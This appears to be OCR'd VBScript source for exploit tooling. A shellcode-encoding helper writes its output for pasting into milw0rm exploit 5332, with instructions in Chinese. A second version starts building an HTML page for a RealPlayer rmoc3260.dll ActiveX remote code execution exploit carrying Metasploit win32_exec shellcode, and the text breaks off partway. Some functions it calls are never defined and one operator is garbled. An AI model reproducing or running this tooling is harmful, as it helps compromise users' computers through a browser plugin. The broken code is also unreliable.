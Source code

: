 Function BytesToBstr(Body, Cset)
 Dim objstream
 Set objstream = CreateObject("adodb.stream")
 objstream.Type = 1
 objstream.Mode = 3
 objstream.Open
 objstream.Write Body
 objstream.Position = 0
 objstream.Type = 2
 objstream.Charset = Cset
 BytesToBstr = objstream.ReadText
 objstream.Close
 Set objstream = Nothing
End Function

Function URLEncoding(vstrIn)
 strReturn = ""
 For aaaa = 1 To Len(vstrIn)
 ThisChr = Mid(vStrIn,aaaa,1)
 If Abs(Asc(ThisChr)) < &HFF Then
 strReturn = strReturn & ThisChr
 Else
 innerCode = Asc(ThisChr)
 If innerCode < 0 Then
 innerCode = innerCode + &H10000
 End If
 Hight8 = (innerCode And &HFF00) &HFF
 Low8 = innerCode And &HFF
 strReturn = strReturn & "%" & Hex(Hight8) & "%" & Hex(Low8)
 End If
 Next
 URLEncoding = strReturn
End Function

set fso=CreateObject("scripting.filesystemobject")
set fileS=fso.opentextfile("a.txt",8,true)
fileS.writeline replaceregex(code)
wscript.echo replaceregex(code)
files.close
set fso=Nothing

wscript.echo Chr(13)&"ok，生成a.txt，请用a.txt里的替换http://www.milw0rm.com/exploits/5332里的shellcode1内容即可"

------------------------------------另外一个版本-----------------------------------

On Error Resume Next
a=""
b=""
a=a+"" & vbcrlf
a=a+"<html>" & vbcrlf
a=a+" <head>" & vbcrlf
a=a+" <title>Real Player rmoc3260.dll ActiveX Control Remote Code Execution Exploit</title>" & vbcrlf
a=a+" <script language=""JavaScript"" defer>" & vbcrlf
a=a+" function Check() {" & vbcrlf
a=a+" " & vbcrlf
a=a+" " & vbcrlf
a=a+"" & vbcrlf
a=a+"" & vbcrlf
a=a+"// win32_exec - EXITFUNC=seh CMD=c:windowssystem32calc.exe Size=378 Encoder=Alpha2 http://metasploit.com " & vbcrlf
